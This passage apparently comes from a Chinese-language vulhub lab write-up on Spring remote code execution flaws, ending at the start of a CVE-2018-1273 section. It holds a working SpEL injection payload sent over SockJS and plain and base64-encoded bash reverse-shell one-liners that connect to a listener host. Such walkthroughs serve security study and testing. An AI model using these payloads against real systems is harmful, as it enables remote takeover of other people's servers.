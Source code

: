 ```php
sockjs.send('subscribe', {
    'selector': "T(java.lang.Runtime).getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjI1My42NS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}')",
    'id': 'sub-0',
    'destination': '/topic/greetings'
})

data = json.dumps({'name': 'vulhub'})
sockjs.send('send', {
    'content-length': len(data),
    'destination': '/app/hello'
}, data)

```

同样也是需要修改的

上java编码的网站

```php
http://www.jackson-t.ca/runtime-exec-payloads.html
```

![image-20210521085321594](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c75c2a5f885c6675559c9e7f7355aa66a1726288.png)

```php
bash -i >&amp; /dev/tcp/192.168.175.130/8888 0>&amp;1
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NS4xMzAvODg4OCAwPiYx}|{base64,-d}|{bash,-i}
```

进行修改

![image-20210522093745956](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f7ff4672595a6d0dd808a724e055cf8697c1f9fe.png)

执行poc

![image-20210522093816453](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-47b337b83579ef3f7ef888d419e7930c2c54137b.png)

成功拿到反弹shell

![image-20210522093836061](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-cb032fd33e0c81e8c482d82b2c7357084728d06c.png)

### Spring Data Commons远程命令执行漏洞(CVE-2018-1273)

#### 影响版本

```php
Spring Data Commons 1.13~1.13.10(Ingalls SR10)
Spring Data REST 2.6~2.6.10(Ingalls SR10)
Spring Data Commons 2.0~2.0.5(Kay SR5)
Spring Data Rest 3.0~3.0 5(Kay SR5)
较旧的不受支持的版本也会受到影响
```

#### 漏洞搭建
